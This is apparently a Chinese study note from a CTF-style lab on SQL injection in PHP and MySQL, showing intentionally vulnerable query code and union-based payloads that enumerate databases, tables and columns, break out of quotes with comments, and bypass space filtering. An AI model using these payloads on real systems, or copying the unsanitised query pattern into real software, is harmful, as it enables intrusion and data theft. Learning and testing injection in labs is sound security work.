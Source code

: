 ## 注入原理

在 php 中, 我们可以使用如下语句来操作一个 MySQL 数据库:

```php
$sql = "SELECT username,password FROM users WHERE id = ".$_GET["id"];
```

在 php 中, `.` 的语法表示字符串的拼接. 我们如果传入一个 1, 则会调用如下查询语句:

```php
$sql = "SELECT username,password FROM users WHERE id = 1";
```

假设程序没有做任何的过滤和限制, 则存在 SQL 注入漏洞. 比如我们可以在这个 1 后面, 写更多的 Sql 语句, 比如这样子:

```php
$_GET["id"] ="1 union select username,password from user"
```

则可以访问到所有的用户名和密码. 因为原本的语句已经变成了:

```php
$sql = "SELECT username,password FROM users WHERE id = 1 union select username,password from user;"
```

## 常见注入及方法

### 整型注入

参考源代码如下, 该段代码为经典的整型注入漏洞源码.

```php
<meta charset="utf-8">
<?php
if (isset($_GET['id'])) {
    $id = $_GET['id'];
    $host = 'localhost';
    $user = 'admin';
    $pass = 'root';
    $conn = mysqli_connect($host, $user, $pass, 'test');
    if (!$conn) {
        die('连接失败:' . mysqli_error($conn));
    }
    mysqli_query($conn, "set names utf8"); //设置编码, 防止中文乱码

    $sql = "SELECT id,username from users where id=$id";
    $result = mysqli_query($conn, $sql);
    if (!$result) {
        die("无法取得数据: " . mysqli_error($conn));
    }

    echo '<h2>MYSql Test';
    echo '<table border="1"><tr><td>ID</td><td>Username</td></tr>';
    while ($row = mysqli_fetch_array($result, MYSQLI_ASSOC)) {
        echo "<tr><td> {$row['id']}</td>".
            "<td>{$row['username']}</td>".
            "</tr>";
    }
    echo '</table>';
    mysqli_close($conn);
} else {
    echo '试试 ?id=1';
}
```

首先, 我们应该确认列数. 只要 SQL 语句没有报错, 则成立, 取成立的最大值即可.

这里使用 `Order by 1~n` 来判断列数. 当 n=3 的时候, 代码报错, 说明其实只有两列

![[attachments/Pasted image 20250412213808.png]]

随后, 使用联合查询 Union, 获取所有的数据库名称:

```sql
1 union SELECT 1,schema_name FROM information_schema.schemata;
```

![[attachments/Pasted image 20250412214008.png]]

有了所有数据库的名称, 就可以查看需要查询的数据库的表名是什么了:

```php
1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=/*数据库名称 需要加引号*/"admin";
```

本题查询 `test` 表, 可以看到如下内容:

![[attachments/Pasted image 20250412214807.png]]

随后, 可以查询对应列的内容. (这里和上面不同的是, 使用的是 `.columns`)

```php
1 union select 1,group_concat(column_name) from information_schema.columns where table_schema="test";
```

![[attachments/Pasted image 20250412215100.png]]

随后, 获取对应的列的内容是什么:

```php
1 union select 1,group_concat(i_am_f1ag_column/*列*/) from f1ag_table/*表*/
```

![[attachments/Pasted image 20250412220003.png]]

> [!warning] 注意
> 这里的列名和表名都没有引号!  直接写即可, 否则会报错.

### 字符型注入

其实就是对上面方法的扩展. 刚才的整数中, 数字后面就什么都没有了, 可是如果传入的是字符串呢? 下面是典型的字符注入案例:

```php
<meta charset="utf-8">
<?php
if (isset($_GET['id'])) {
    $id = $_GET['id'];
    $host = 'localhost';
    $user = 'admin';
    $pass = 'root';
    $conn = mysqli_connect($host, $user, $pass, 'test');
    if (!$conn) {
        die('连接失败:' . mysqli_error($conn));
    }
    mysqli_query($conn, "set names utf8"); //设置编码, 防止中文乱码

    $sql = "SELECT id,username from users where id=\"$id\"";
    $result = mysqli_query($conn, $sql);
    if (!$result) {
        die("无法取得数据: " . mysqli_error($conn));
    }

    echo '<h2>MYSql Test';
    echo '<table border="1"><tr><td>ID</td><td>Username</td></tr>';
    while ($row = mysqli_fetch_array($result, MYSQLI_ASSOC)) {
        echo "<tr><td> {$row['id']}</td>".
            "<td>{$row['username']}</td>".
            "</tr>";
    }
    echo '</table>';
    mysqli_close($conn);
} else {
    echo '试试 ?id=1';
}
```

我们发现, 其中出现了 `""`, 我们写的东西如果在引号里面则无效. 所以我们需要再传入一个双引号来绕过原有的双引号. 

我们可以考虑使用 `"` 来绕过, 但是后面的语句还有, 这里可以使用 `--+` 来绕过. 因为 `--+` 代表的就是注释, 会忽略后面的所有语句.

```sql
1 Order by 3--+
```

![[attachments/Pasted image 20250412223252.png]]

这样就成功的获取到表的数目了. 后面的和普通的整型注入基本一致, 参考如下:

> [!note] 字符注入基本步骤
> 其实也算是通用的注入基本步骤啦, 大概就是 `1" {SQL注入语句} --+`
> - 确认列数:  `1" Order by 1~n--+`
> - 查看数据库名称:  `1" union SELECT 1,schema_name FROM information_schema.schemata;--+`
> - 查看表名: `1" union select 1,group_concat(table_name) from information_schema.tables where table_schema="test";--+`
> - 查看表的内容: `1" union select 1,group_concat(column_name) from information_schema.columns where table_schema="test";--+`
> - 获取对应列的内容: `1" union select 1,group_concat(i_am_f1ag_column) from f1ag_table;--+`

成功得到 Flag:

![[attachments/Pasted image 20250412224557.png]]

### 空格过滤绕过

如果需要过滤空格, 可以使用注释 `/**/` 来绕过. 直接放在语句中间即可代表空格, 比如这样子的 payload:

```sql
SELECT/*替换空格*/password/**/FROM/**/Members
```